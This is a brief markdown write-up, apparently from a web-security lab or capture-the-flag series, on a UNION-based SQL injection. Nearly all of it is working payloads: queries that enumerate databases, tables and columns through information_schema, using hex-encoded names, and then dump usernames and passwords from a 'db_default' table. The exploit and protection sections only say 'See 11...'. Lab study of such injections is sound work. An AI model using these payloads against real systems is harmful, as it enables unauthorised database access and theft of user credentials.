 # Vulnerability

Get the list of all the DBs:
```
1 and 1=0 union select null, schema_name from information_schema.schemata
```

Get all the tables on that Member_Brute_Force (converted to hex):
```
1 and 1=0 union select null,table_name from information_schema.tables where table_schema=0x4D656D6265725F42727574655F466F726365
```

Get all the fields of db_default (converted to hex):
```
1 and 1=0 union select null,column_name from information_schema.columns where table_name=0x64625F64656661756C74
```

Get all the entries of db_default:
```
1 and 1=0 union select username,password from Member_Brute_Force.db_default
```

# Exploit 

See 11...

# Protection

See 11...
